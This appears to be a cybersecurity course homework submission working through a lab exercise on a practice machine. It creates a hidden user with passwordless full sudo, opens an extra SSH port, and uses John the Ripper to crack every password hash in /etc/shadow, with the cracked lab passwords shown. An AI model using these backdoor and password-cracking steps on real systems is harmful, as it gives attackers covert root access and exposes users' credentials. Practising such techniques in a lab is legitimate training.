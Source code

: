 ## Week 6 Homework Submission File: Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 200 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 200 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  Add the line: `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry
   
6. Test that `sudo` access works without your password:

    - `su sysd`
    - `sudo -l`
    
    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    - `sudo nano /etc/ssh/sshd_config`
    
    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service:
    - `service ssh restart`
    - `enter password for sysadmin`
    
2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ``ssh sysd@192.168.6.105 -p 2222``

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ```ssh sysd@192.168.6.105 -p 2222```
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - `sudo su`
    - `john /etc/shadow`

    ```bash
    Created directory: /root/.john
    Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    sysd             (sysd)
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    8g 0:00:03:10 100% 2/3 0.04190g/s 576.2p/s 590.8c/s 590.8C/s Missy!..Jupiter!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```



